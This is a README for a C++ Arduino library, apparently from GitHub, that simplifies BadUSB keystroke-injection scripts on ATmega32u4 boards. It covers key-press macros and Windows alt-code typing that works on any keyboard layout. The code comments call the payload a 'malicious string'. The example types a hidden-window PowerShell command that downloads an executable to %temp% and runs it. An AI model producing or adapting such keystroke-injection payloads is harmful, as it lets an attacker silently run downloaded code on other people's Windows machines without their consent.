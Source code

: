 # EasyBadUsb
simple header only lib written in C++ to make BadUsb scripting easier (Arduino IDE)

### tested only on ATmega32u4 (HW-374) Arduino Leonardo or Micro
![screen](images/dis.jpg)
[image from github.com/ElijahCuff/HW-374](https://github.com/ElijahCuff/HW-374)

# v2 with alt codes (only for Windows)

### first, include alt.hpp in your sketch file
```cpp
#include "alt.hpp"
```

### then between BEGIN() ... END() we write our commands
```cpp
BEGIN()

//
// commands
//

END()
```

### lowercase input on any keyboard layout expense of alt codes (only works on Windows)

#### supported characters (eng letters, numbers and basic special characters)

```cpp
static const alt_code alt_codes_array[] = {
    {' ', 32},  {'B', 66},  {'C', 67},  {'D', 68},  {'E', 69},  {'F', 70},
    {'G', 71},  {'H', 72},  {'I', 73},  {'J', 74},  {'K', 75},  {'L', 76},
    {'M', 77},  {'N', 78},  {'O', 79},  {'P', 80},  {'Q', 81},  {'R', 82},
    {'S', 83},  {'T', 84},  {'U', 85},  {'V', 86},  {'W', 87},  {'X', 88},
    {'Y', 89},  {'Z', 90},  {'a', 97},  {'b', 98},  {'c', 99},  {'d', 100},
    {'e', 101}, {'f', 102}, {'g', 103}, {'h', 104}, {'i', 105}, {'j', 106},
    {'k', 107}, {'l', 108}, {'m', 109}, {'n', 110}, {'o', 111}, {'p', 112},
    {'q', 113}, {'r', 114}, {'s', 115}, {'t', 116}, {'u', 117}, {'v', 118},
    {'w', 119}, {'x', 120}, {'y', 121}, {'z', 122}, {'0', 48},  {'1', 49},
    {'2', 50},  {'3', 51},  {'4', 52},  {'5', 53},  {'6', 54},  {'7', 55},
    {'8', 56},  {'9', 57},  {'!', 33},  {'"', 34},  {'#', 35},  {'$', 36},
    {'%', 37},  {'&', 38},  {'\'', 39}, {'(', 40},  {')', 41},  {'*', 42},
    {'+', 43},  {',', 44},  {'-', 45},  {'.', 46},  {'/', 47},  {':', 58},
    {';', 59},  {'<', 60},  {'=', 61},  {'>', 62},  {'?', 63},  {'@', 64},
    {'[', 91},  {'\\', 92}, {']', 93},  {'^', 94},  {'_', 95},  {'`', 96},
    {'{', 123}, {'|', 124}, {'}', 125}, {'~', 126}, {'A', 65}};
```

#### alt codes lib functional

```cpp
    const char *payload_str = "powershell -windowstyle hidden..."; // malicious string

    // void alt_print(const char *str, size_t t_sleep)
    alt_print(payload_str, 0); // (malicious_string, sleep time for enter next char)
    /* sleep time for enter next char.. because i had problems on Windows 7
    that the system was unable to process alt codes, on Win 10/11 work well */
```





#### buttons definitions
```cpp
#define MKEY_LEFT_CTRL (0x0001 << 0x00)
#define MKEY_LEFT_WIN (0x0001 << 0x01)
#define MKEY_LEFT_SHIFT (0x0001 << 0x02)
#define MKEY_LEFT_ALT (0x0001 << 0x03)
#define MKEY_ENTER (0x0001 << 0x04)

#define MKEY_LEFT_ARROW (0x0001 << 0x05)
#define MKEY_RIGHT_ARROW (0x0001 << 0x06)

#define MKEY_CH_R (0x0001 << 0x07)
#define MKEY_CH_A (0x0001 << 0x08)
#define MKEY_CH_C (0x0001 << 0x09)

#define MKEY_FN_4 (0x0001 << 0x0A)
```

### The PRESS functions is used to press special keys and simultaneously press several keys on the keyboard
```cpp
// #define PRESS(BTNS, t_sleep)
PRESS(MKEY_LEFT_CTRL | MKEY_LEFT_SHIFT | MKEY_ENTER, 200) // (buttons to be pressed, sleep time for press next button)

// #define PRESS_KRELALL(BTNS, t_sleep, t_wait)
PRESS_KRELALL(MKEY_LEFT_WIN | MKEY_CH_R, 200, 500) // (buttons to be pressed, sleep time for press next button, sleep time to release the buttons)

// bool release_btn(const uint8_t button)
release_btn(MKEY_ENTER) // (buttons to be released)

// void tprint(const char *str, size_t t_sleep)
tprint("echo Hello World!", 30) // (string, sleep time for enter next char), default print (NOT ALT)

// #define WAIT(ms)
WAIT(500) // delay 500 ms
```

### example
```cpp
#include "alt.hpp"

BEGIN()

    const char *str = "powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('"
    "https://www.python.org/ftp/python/3.11.7/python-3.11.7-amd64.exe', '%temp%/py_install.exe'); %temp%/py_install.exe";

    RUN_ENTER(str, 0)

END()
```

### demo
[![demo](https://img.youtube.com/vi/Osa8dZCe86s/0.jpg)](https://www.youtube.com/watch?v=Osa8dZCe86s)
